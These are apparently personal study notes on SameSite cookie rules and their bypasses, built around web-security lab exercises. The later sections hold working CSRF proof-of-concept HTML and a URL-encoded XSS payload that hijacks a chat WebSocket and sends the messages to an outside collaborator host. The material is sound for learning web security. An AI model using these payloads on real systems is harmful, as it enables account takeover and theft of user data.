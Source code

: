 # SameSite 101

>[!question] What is the SameSite attirbute for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

They provide partial protections against various cross-site attacks, including:
- [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)
- Cross-Site leaks
- [CORS based attacks](CORS%20based%20attacks.md)

>[!important] Domain =/= site
>Important distinction as it means that any vulnerability enabling arbitrary JavaScript execution can be abused to **bypass site-based defenses** on other domains belonging to the same site.
>
>This allows other kind of attacks, like:
>- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md)
>- [Cookie Tossing](Cookie%20Tossing.md)
>- [Cookie Eviction](Cookie%20Eviction.md)


In the context of SameSite cookie restrictions, a **site** is defined as a combination of **scheme** + the **top-level domain** + **one additional level of the domain**:
![|900](attachments/Site-example.png)
- `http://app.example.com` and `https://app.example.com` are considered two distinct sites.
- `http://app.example.com` and `http://app2.example.com` are considered the **same site** (because 3rd level domain and below are not considered)

A **site** is also different by an **origin** (ref. [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) for further information):

| Request from            | Request to                   | Same-site?            | Same-origin?               |
| ----------------------- | ---------------------------- | --------------------- | -------------------------- |
| https://example.com     | https://example.com          | Yes                   | Yes                        |
| https://app.example.com | https://intranet.example.com | Yes                   | No: mismatched domain name |
| https://example.com     | https://example.com:8080     | Yes                   | No: mismatched port        |
| https://example.com     | https://example.co.uk        | No: mismatched eTLD   | No: mismatched domain name |
| https://example.com     | http://example.com           | No: mismatched scheme | No: mismatched scheme      |

SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Common bypasses and flaws

## Bypass SameSite Lax restrictions using GET requests

Sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.

  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

## Bypass SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.

  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

## Bypass SameSite restrictions via vulnerable sibling domains

It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or subdomain takeover, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including:
- [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)) 
- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) 
- [Cookie Tossing](Cookie%20Tossing.md)
- [Cookie Eviction](Cookie%20Eviction.md)


  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >![CSRF2](../../zzz_res/attachments/CSRF2.png)
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html
  ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```
